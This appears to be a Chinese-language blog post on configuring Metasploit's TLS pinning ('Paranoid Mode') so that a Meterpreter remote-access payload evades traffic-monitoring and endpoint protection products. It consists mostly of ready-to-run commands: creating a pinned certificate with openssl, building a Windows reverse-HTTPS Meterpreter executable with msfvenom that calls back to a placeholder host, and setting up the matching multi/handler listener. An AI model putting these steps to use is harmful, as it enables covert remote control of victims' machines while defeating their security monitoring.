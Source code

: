 ```yaml
---
title: MSF TLS pinning
author: Admin
date: 2020-05-01 14:01:00 +0800
categories: [RAT, MSF]
tags: [流量加密, MSF, 免杀]
---
```


# 开宗明义

利用TLS pinning（证书锁定）过掉流量监控设备，例如赛某的端点防护。

Rapid7将之称为```Paranoid Mode(偏执模式)```，相关wiki：[github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)

# 创建证书

```shell
openssl req -new -newkey rsa:4096 -days 36500 -nodes -x509 -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" -keyout cert.key -out cert.crt
cat cert.key cert.crt > cert.pem
rm -f cert.key cert.crt
```

其中```www.example.com```为回连域名或IP

# 生成payload

```shell
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./cert.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o ./launch-paranoid.exe
```

支持的payload:

|  Staged (payload.bat\|ps1\|txt\|exe):  |
|  :----  |
|  windows/meterpreter/reverse_winhttps  |
|  windows/meterpreter/reverse_https  |
|  windows/x64/meterpreter/reverse_https  |

|  Stageless (binary.exe):  |
|  :----  |
|  windows/meterpreter_reverse_https  |
|  windows/x64/meterpreter_reverse_https  |


# 设置监听

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_winhttps
set LHOST www.example.com
set LPORT 443
set HandlerSSLCert ./cert.pem
set IgnoreUnknownPayloads true
set StagerVerifySSLCert true
set exitonsession false
run -j -z
```

# 在MacOS上的tips

使用完msfconsole后，会有残留进程，建议运行```msfdb stop```结束。